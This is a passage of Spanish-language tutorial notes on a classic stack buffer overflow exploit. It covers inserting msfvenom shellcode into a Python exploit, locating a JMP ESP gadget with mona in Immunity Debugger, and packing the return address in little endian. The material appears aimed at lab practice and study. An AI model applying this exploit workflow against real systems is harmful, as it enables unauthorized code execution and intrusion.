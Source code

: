 Si hay muchos badchars puede que no funcione el shikata_na_nai. Quitalo en ese caso que el msfvenom ya se ocupará de crearte uno adecuado.

Copiamos el shellcode obtenido y añadimos en el exploit:
```py
# Quitamos el after_eip y en su lugar ponemos variable shellcode:
shellcode = (b"\x01\x02....."
b"\x0f\x0.....")  # Estructura con el shellcode obtenido del msfvenom.

payload = before_eip + eip + shellcode
```
Ya tenemos el shellcode que estará en la pila, peeero el EIP de momento no apunta a la pila. No puedo decir a EIP que apunte a la dirección que tiene ESP (se ve en el Inmunity), hay que buscar una dirección que aplique un salto al ESP. Para dar con ella desde el inmunity:
```sh
!mona modules
```
Hay que buscar un modulo que tenga las 4 primeras protecciones deshabilitadas, que las tenga en valor False. Quedate con el nombre final de la linea, digamos que es **SLMFC.DLL**, el modulo. Ahora buscaremos una instrucción JMP ESP dentro de esta dll. Para buscarlo no podemos poner JMP ESP sino el opcode en formato hexadecimal.
```sh
# Desde mi terminal:
> /sur/share/metaexploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp ESP # Escribimos jmp ESP
# Saldrá FFE4, es un valor fijo, no depende del programa.
```
Saldría **FFE4** que es un valor fijo, no cambia según el programa(tiene toda la pinta al menos) y se representa de esta forma; **\xFF\xE4**. No hace falta dar la vuelta al opcode.

Ahora buscamos con mona ese opcode en el modulo elegido.
```sh
!mona find -s "\xFF\xE4" -m SLMFC.DLL
```
Si esta instrucción no funciona, no te encuentra nada, prueba con esta otra:
```sh
!mona findwild -s "JMP ESP"  # También se puede buscar como JMP ESP en el !mona find de arriba.
# Como ves no indicamos modulo.
```
Saldrán direcciones, hay que escoger una que no esten los badchars encontrados. Elegiremos la **0x5f4c4d13**.

En exploit.py modificamos:
```py
# Hay que poner la direción al  revés porque estamos en 32 bits y se realiza en formato little endian.
from struct import pack # Para que lo represente de forma automática en little endian
eip = pack("<L", 0x5f4c4d13)
```
Salimos y entramos del inmunity y del servicio, attach, le damos al play ¡¡¡¡peeeero ahora!!! pulsaremos la flecha azul para hacer un break point y metemos la dirección copiada antes;0x5f4c4d13 --> Ok.  
Arriba a la izquierda veremos que la dirección 5f4c4d13 contiene el JMP ESP.  
Click derecho --> Breakpoint --> toggle --> yes
